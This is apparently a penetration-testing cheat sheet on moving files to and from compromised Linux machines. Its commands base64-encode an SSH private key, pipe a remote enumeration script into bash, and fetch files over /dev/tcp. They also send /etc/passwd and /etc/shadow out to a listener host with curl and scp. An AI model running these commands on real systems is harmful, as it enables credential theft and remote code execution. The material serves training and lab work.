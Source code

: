 ```yaml
---
title: Linux File Transer
tags: [download, upload, wget, curl, base64]
tools: ['ftp', 'openssl', 'python']
notes: "Various file transfer techniques for Linux"
---
```

# Linux File Transfer

## Download Operations

### Base64 Encoding / Decoding

**Check MD5 and Encode/Decode:**

```bash
# Check MD5 and encode
md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa

cat id_rsa |base64 -w 0;echo
---SNIP---

# Decode and check MD5
echo -n '---SNIP---' | base64 -d > id_rsa

md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa
```

---

### cURL / wget

Some payloads such as `mkfifo` write files to disk. Keep in  mind that while the execution of the payload may be fileless when you  use a pipe, depending on the payload chosen it may create temporary  files on the OS.

```bash
# Standard
wget https://host/LinEnum.sh -O /tmp/LinEnum.sh
curl -o /tmp/LinEnum.sh https://host/LinEnum.sh

# Fileless
curl https://host/LinEnum.sh | bash
wget -qO- https://host/script.py | python3
```

---

### Download with Bash (/dev/tcp)

**Connect to the Target Webserver**:

```bash
# Connect
exec 3<>/dev/tcp/10.10.10.32/80

# HTTP GET request
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

# Print response
cat <&3
```

---

### Downloading Files Using SCP

`scp plaintext@192.168.1.10:/root/myroot.txt . `

---

## Upload Operations

### Web Upload

**Python upload server:**

```bash
# Create cert
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Start server
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

# Upload file
curl -X POST https://192.168.1.10/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

---

### Alternative Web File Transfer Method

It is possible to stand up a web server using various languages. A  compromised Linux machine may not have a web server installed. In such  cases, we can use a mini web server. 

```bash
# Python3
python3 -m http.server

# python2
python2.7 -m SimpleHTTPServer

# PHP
php -S 0.0.0.0:8000

# Ruby
ruby -run -ehttpd . -p8000

# SCP
scp /etc/passwd user@192.168.1.10:/tmp/
```
